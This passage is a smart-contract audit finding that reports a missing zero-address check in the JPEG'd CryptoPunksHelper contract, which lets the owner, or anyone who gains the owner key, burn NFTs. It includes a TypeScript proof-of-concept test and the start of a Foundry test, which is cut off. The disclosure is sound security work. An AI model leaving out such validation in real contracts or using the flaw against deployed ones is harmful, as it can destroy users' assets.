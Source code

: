 ## [[M-02] NFTHelper Contract Allows Owner to Burn NFTs](https://github.com/code-423n4/2022-04-jpegd-findings/issues/47)
_Submitted by Kenshin_

[CryptoPunksHelper.sol#L38](https://github.com/code-423n4/2022-04-jpegd/blob/e72861a9ccb707ced9015166fbded5c97c6991b6/contracts/helpers/CryptoPunksHelper.sol#L38)<br>
[CryptoPunksHelper.sol#L52](https://github.com/code-423n4/2022-04-jpegd/blob/e72861a9ccb707ced9015166fbded5c97c6991b6/contracts/helpers/CryptoPunksHelper.sol#L52)<br>

In the NFT helper contract, there is no validation on that the receiver address must not be address zero. Therefore, it allows owner or an attacker who gain access to the owner address to burn NFTs forever through the functions by transferring the NFTs to address zero.

### Proof of Concept

The PoC is originally conducted using foundry. However, it isn't that complicated so I rewrote it in TypeScipt as well, the team can easily proof this by including in the `CryptoPunksHelper.ts`.

#### TypeScript

    // add `.only` to run only this test, not all.
    it.only("allows the owner to burn nfts", async () => {
        // safeTransferFrom
        await cryptoPunks.getPunk(1);
        await cryptoPunks.transferPunk(helper.address, 1);
        await helper.safeTransferFrom(owner.address, ZERO_ADDRESS, 1);
        expect(await cryptoPunks.punkIndexToAddress(1)).to.equal(ZERO_ADDRESS);
        expect(await helper.ownerOf(1)).to.equal(ZERO_ADDRESS);

        // transferFrom
        await cryptoPunks.getPunk(2);
        await cryptoPunks.transferPunk(helper.address, 2);
        await helper.transferFrom(owner.address, ZERO_ADDRESS, 2);
        expect(await cryptoPunks.punkIndexToAddress(2)).to.equal(ZERO_ADDRESS);
        expect(await helper.ownerOf(2)).to.equal(ZERO_ADDRESS);
      });

#### Foundry

    pragma solidity ^0.8.0;

    // for test
    import "ds-test/test.sol";
    import "forge-std/Vm.sol";

    // contracts
    import "../test/CryptoPunks.sol";
    import "../helpers/CryptoPunksHelper.sol";

    contract CryptoPunksHelperTest is DSTest {
        Vm constant vm = Vm(HEVM_ADDRESS);
        
        address owner = address(1);
        address user = address(2);
        